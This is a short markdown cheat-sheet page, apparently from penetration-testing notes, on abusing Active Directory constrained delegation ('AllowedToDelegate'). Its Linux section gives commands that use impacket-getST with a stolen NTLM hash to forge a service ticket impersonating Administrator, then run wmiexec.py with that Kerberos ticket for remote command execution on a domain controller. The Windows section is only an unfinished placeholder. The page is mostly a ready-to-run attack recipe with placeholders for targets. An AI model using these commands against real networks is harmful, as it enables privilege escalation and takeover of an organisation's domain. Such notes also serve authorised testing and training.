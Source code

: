 ```yaml
---
title: "AllowedToDelegate"
date: 2024-7-23
tags: ["Pass-The-Ticket", "Silver Ticket", "Ticket Granting Ticket", "Allowedtodelegate", "Active Driectory", "Windows"]
---
```


### Privesc #1: Forge a Ticket

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Get a service ticket

```console
# For example, spn: www/dc.example.com (Check Bloodhound)
sudo ntpdate -s <DC> && impacket-getST -dc-ip <DC_IP> -spn <SERVICE>/<TARGET_DOMAIN> -hashes :<HASH> -impersonate Administrator '<DOMAIN>/<USER>'
```

#### 2. Remote

```console
export KRB5CCNAME=Administrator.ccache
```

```console
sudo ntpdate -s <DC> && wmiexec.py -k -no-pass administrator@<DC>
```

<small>*Note: impacket-wmiexec may not work*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. TO-DO

```console
TO-DO
```

{{< /tabcontent >}}
